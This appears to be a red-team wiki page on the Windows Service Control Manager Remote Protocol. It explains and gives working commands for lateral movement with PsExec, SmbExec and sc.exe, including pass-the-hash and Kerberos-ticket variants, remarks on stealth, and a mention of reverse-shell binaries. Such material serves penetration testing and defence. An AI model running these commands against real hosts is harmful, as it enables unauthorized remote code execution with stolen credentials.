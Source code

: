 ```yaml
---
label: MS-SCMR
---
```


# MS-SCMR: Service Control Manager Remote Protocol

Through the MS-SCMR (RPC) protocol, Windows allows remote communication with another machine's Service Control Manager (SCM). This allows, among other things, remote startup of services on another machine. This capability ultimately allows the user to execute code on another machine (by creating a service), which is the basis for attacks like PsExec and SmbExec.

PsExec and SmbExec are well-known attacks designed to establish a pseudo-interactive "shell" on the target machine. Both attacks require access to SMB shares of the target host (445/TCP) for establishing two-way communication via named pipes.  

It is worth remembering that remote service creation is a built-in feature of standard `sc.exe`. There is no magic here, it is a standard feature of Windows. Without SMB access, the service will execute, but we cannot provide a malicious binary to the service or receive a response.

## PsExec

> **IMPORTANT**: A user who wants to use PsExec on a remote machine must have access to its `ADMIN$` SMB share. Without SMB access, it is not possible to use PsExec.

Linux:

```bash
# Using plaintext password
impacket-psexec $domain/$user:$password@$host

# Using NT hash
impacket-psexec -hashes :$nt_hash $domain/$user@$host

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-psexec $domain/$user@$host -k -nopass
```

Windows ([SysInternals - PsExec.exe](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)):

```powershell
# Using plaintext password
.\PsExec.exe -accepteula -u $user -p $password \\$HOST cmd

# Using Kerberos TGT (in-memory)
.\PsExec.exe -accepteula -u $user \\$HOST cmd
```

PsExec works by writing an `.exe` binary to the `ADMIN$` SMB share on the target host. Because of that, a user requires write access to that share. Then, SCM is called remotely (via RPC) to execute the binary using created service. Binary creates a named pipe accessible via SMB. This named pipe is used by the user to execute commands remotely and read output. Communication is established via SMB (445/TCP).

> **NOTE**: PsExec leaves artifacts behind that require manual cleaning. The uploaded binary is is not automatically removed from the SMB share.

## SmbExec

Linux:

```bash
# Using plaintext password
impacket-smbexec $domain/$user:$password@$host

# Using NT hash
impacket-smbexec -hashes :$nt_hash $domain/$user@$host

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-smbexec $domain/$user@$host -k -nopass
```

Unlike PsExec, SmbExec avoids transferring a potentially detectable binary to the target host. The trick is that instead of using a malicious binary, SmbExec launches a new service (using SCM remotely via RPC) with each new command, executes the command in the `binPath` parameter of the service and closes the service. For every command a user type into "shell", a new service is created and the process is repeated. It just executes each desired command as a new service. Communication is established via SMB (445/TCP).

SmbExec is considered as a stealthier alternative to noisy and easy to detect PsExec. Nevertheless, it is important to remember that an event log is created for every command executed (service creation).

## ScExec

You can use the standard Windows tool `sc.exe` to run a service on a remote machine. It can be a single shell command or, for example, a reverse-shell binary sent over SMB.

> **NOTE**: Watch out for spaces in arguments. They are necessary!

Windows:

```powershell
# Create and start service
sc \\$host create $svc_name binPath= "cmd.exe /c $command" start= auto
sc \\$host start $svc_name

# Stop and delete service
sc \\$host stop $svc_name
sc \\$host delete $svc_name
```

TBD: Logon type and how to provide credentials to `sc.exe`.

## References

* [Rift, _SMBExec: Red Side Analysis](https://rift.stacktitan.com/smbexec/)
* [Boitatech, _SmbExec/ScExec_](https://hacktricks.boitatech.com.br/windows/ntlm/smbexec)
